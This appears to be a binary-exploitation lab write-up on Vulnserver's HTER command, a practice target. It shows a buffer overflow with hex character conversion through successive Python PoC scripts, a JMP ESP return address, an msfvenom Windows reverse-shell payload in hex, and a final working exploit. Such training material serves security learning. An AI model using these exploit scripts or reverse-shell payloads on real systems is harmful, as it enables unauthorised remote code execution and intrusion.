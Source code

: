 ```yaml
---
title: Vulnserver HTER - Vanilla BOF & Character Conversion 
author: fwinsnes
date: 2020-03-09 11:33:00 +0800
categories: [Binary Exploitation]
tags: [vulnerability]
---
```


# Introduction

### In order to finish with the eccentric cases that vulnserver may offer us, today we will be seeing an odd case of a buffer overflow with a character conversion.

#### The issue itself

##### Due to the character conversion, the received bytes are parsed as expected. Nonetheless, the alphanumeric bytes suffer from no change whatsoever and are not ported as hex. 
For example, if the EIP is overflown with 1000 bytes of A's, the EIP may not reveal 41414141, instead, it will place "AAAAAAAA".

### The basics

##### As with any other vulnerable applicaiton to, so as to achieve a buffer overflow, we shall test it first in order to exploit it, let's try with HTER + long string of bytes.

###### PoC code:

```term
import socket, sys

host = sys.argv[1]

buffer = "HTER " + "A" * 5000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```

#### Crash I.

![](/assets/img/HTER/1.png)

##### Gaze at the EIP for a bit, look how instead of converting the sent bytes into hex (41), it just parsed them as how they went dispatched.
##### As there is no pattern available in order to obtain the offset on these scenarios, the best method is to deduce the offset manually with the use of an elimination process.

###### PoC code:

```term
import socket, sys

host = sys.argv[1]

buffer = "HTER " + "A" * 2000 + "B" * 1000 + "C" * 1000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```

##### Crash II.

![](/assets/img/HTER/2.png)

##### As displayed, it appears as now the B's are the culprit for the overflow. After this process was replicated on multiple occasions, it was found for the offset to be 2041.
##### Furthermore, in order to overwrite the EIP, it is needed to cover the extra space that the opcodes commonly occupy, meaning that it is required to send 8 B's, instead of 4.

###### PoC code:

```term
import socket, sys

host = sys.argv[1]

buffer = "HTER " + "A" * 2041 + "BBBBBBBB" + "FF" * 200

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```

##### Crash III.

![](/assets/img/HTER/3.png)

#### Hijacking the execution.

##### As with any other buffer overflow, it is now essential to find an address with a JMP ESP instruction, which will allow us to execute any type of code with no restrictions 
whatsoever.

###### Enumerating the modules.

![](/assets/img/HTER/4.png)

###### Hunting for the required instruction.

##### Now that the vital address has been already acquired, it can't just be placed as we always did, with struct or a hex escape sequence (\x). Instead, it must be placed on 
reverse, just without the aforementioned hexadecimal condition. For example, instead of sending \x41\x49, 4149 is chosen.

![](/assets/img/HTER/5.png)

###### PoC code:

```term
import socket, sys

host = sys.argv[1]

jmpesp = "AF115062" # 625011AF

buffer = "HTER " + "A" * 2041 + jmpesp + "FF" * 200

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```

##### Crash IV.

![](/assets/img/HTER/6.png)

##### Good, as we now have access to execution, the following step would be generating shellcode, but following what was seen on the last crash. In order to make our shellcode 
usable, the format "hex" will be employed.

##### Generating shellcode

```term
root@whitecr0wz:~# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.100.139 LPORT=9000 -f hex -b "\x00" EXITFUNC=thread 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of hex file: 702 bytes
b8cb420fe4daced97424f45b31c9b1523143120343128320beed114ad770d9b2281553571915071c0aa54370a74e01603c228e87f589e8a606a1c9a984b81d09b4725048f16f9918aae40c8cdfb18c27935495d46456b44bf
e01166ad3391f743007e90f82f3e8d9dafc4724d30e9961d4f0ec9b268cf658544a727afe1924a6feceb32d0cbab069113d14022db69bc4a78cbfc0ec57a1514939de8132e67acadff3f691b7303b29485f4c5a7ac0e6f436
89200338a0959bc74be6b2031fb6aca2205d2c4af5f27ce4a6b22c44175b264b487b4981e116b042ce4fde19a68d1e3d1f1bf82b4f4d53c4f6d42f75f6c24ab57ce1ab78758cbfed75db9db88af18927189e492101091e66f
740ca9aaefae86636c4a8bc8bcb3130b7ef218c38b415406f62c326d9c4bdf0b68e2984f4102f89d0e6cf388dbef0f5593789ebf9b840a81a5b40c5b2c20164dff4fcabe676f4531d667d5159206e2bf2c59098f3cf
root@whitecr0wz:~# 
```

###### Final PoC:

```term
import socket, sys

host = sys.argv[1]

buf = 
"b8cb420fe4daced97424f45b31c9b1523143120343128320beed114ad770d9b2281553571915071c0aa54370a74e01603c228e87f589e8a606a1c9a984b81d09b4725048f16f9918aae40c8cdfb18c27935495d46456b44b
fe01166ad3391f743007e90f82f3e8d9dafc4724d30e9961d4f0ec9b268cf658544a727afe1924a6feceb32d0cbab069113d14022db69bc4a78cbfc0ec57a1514939de8132e67acadff3f691b7303b29485f4c5a7ac0e6f43
689200338a0959bc74be6b2031fb6aca2205d2c4af5f27ce4a6b22c44175b264b487b4981e116b042ce4fde19a68d1e3d1f1bf82b4f4d53c4f6d42f75f6c24ab57ce1ab78758cbfed75db9db88af18927189e492101091e66
f740ca9aaefae86636c4a8bc8bcb3130b7ef218c38b415406f62c326d9c4bdf0b68e2984f4102f89d0e6cf388dbef0f5593789ebf9b840a81a5b40c5b2c20164dff4fcabe676f4531d667d5159206e2bf2c59098f3cf"

jmpesp = "AF115062" # 625011AF

buffer = "HTER " + "A" * 2041 + jmpesp + "90" * 20 + buf + "FF" * 200

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```

#### EndGame

![](/assets/img/HTER/7.png)
